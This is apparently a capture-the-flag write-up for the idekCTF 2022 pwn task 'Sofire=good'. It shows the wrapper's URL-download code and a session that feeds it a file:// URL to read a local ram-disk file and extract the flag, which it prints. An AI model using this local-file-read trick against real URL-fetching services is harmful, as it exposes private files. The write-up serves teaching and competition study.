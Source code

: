 # Sofire=good - idekCTF 2022 (pwn, 7 solved, 497p)

## Introduction
Sofire=good is a pwn task.

An archive containing a kernel, a ram disk, source code and boilerplate code is
provided.

## Reverse engineering
The challenge first asks the user for a URL to fetch and download an exploit.

```python
# Downloading the user's exploit executable.
try:
    with urllib.request.urlopen(url) as f:
        exploit = f.read()
except Exception:
    print("Some error occurred while downloading your exploit executable. Try again or contact support :(\n")
    exit(-1)
else:
    # Saving the user's exploit executable to a tmp disk file.
    with open(path, "wb") as f:
        f.write(exploit)
```

Then, the virtual machine is started with the exploit in `/mnt`.

Very little time was spent trying to actually understand the challenge.

## Vulnerability
There is an unintended vulnerability in the wrapper script. By specifying a URL
starting with `file://`, it is possible to fetch local files in the virtual
machine.

## Exploitation
The exploitation of this unintended vulnerability is trivial. The
`/home/user/initramfs.cpio` file contains the flag.

```
% ncat --ssl sofirium-97f5551e54f58151.instancer.idek.team 1337
Give me the URL to your exploit executable (press enter to skip): file:///home/user/initramfs.cpio

[...]

/ $ cd /tmp/mount
cd /tmp/mount

/tmp/mount $ ls
ls
17d3c4bf-58a9-440e-84e7-59608c5e8380

/tmp/mount $ cpio -i flag.txt < 17d3c4bf-58a9-440e-84e7-59608c5e8380
cpio -i flag.txt < 17d3c4bf-58a9-440e-84e7-59608c5e8380
5788 blocks

/tmp/mount $ cat flag.txt
cat flag.txt
idek{n0N_r3fuNd48lE_tr@s#_0n_7h3_k3rn3l_(h41n}
```

**Flag**: `idek{n0N_r3fuNd48lE_tr@s#_0n_7h3_k3rn3l_(h41n}`
